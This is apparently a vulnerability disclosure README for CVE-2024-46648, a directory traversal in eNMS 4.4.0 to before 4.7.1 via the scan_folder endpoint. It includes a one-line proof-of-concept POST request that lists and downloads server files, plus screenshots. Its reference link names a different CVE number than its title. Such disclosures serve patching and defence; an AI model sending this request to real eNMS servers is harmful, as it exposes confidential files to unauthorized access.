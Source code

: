 # **CVE-2024-46648**
# Details
* **Vulnerability Type**: eNMS 4.4.0 < 4.7.1 Directory Traversal via scan_folder
* **Affected Application**: eNMS
* **Affected Versions**: 4.4.0 < 4.7.1
* **Affected Component**: /scan_folder/>[DIR]
* **Impact**: Unauthorized access to sensitive files, potential exposure of confidential information.

# PoC
## ```POST /scan_folder/>[DIR]```

View and download file/directory content via ```SCAN FOLDER``` functionality:

![image](img/481.png)

```
POST /scan_folder/>tmp>test
```

![image](img/482.png)

Downloading the file found within the folder:
<br/><br/>
![image](img/483.png)
# References
https://www.cve.org/CVERecord?id=CVE-2024-46644
# Credits
**Andrea Pessione** and **Manuel Scala** - SK IT Cyber Security<br></br>
<a href="https://sk-it.com/"><img src="img/skit_logo.png" width="300">
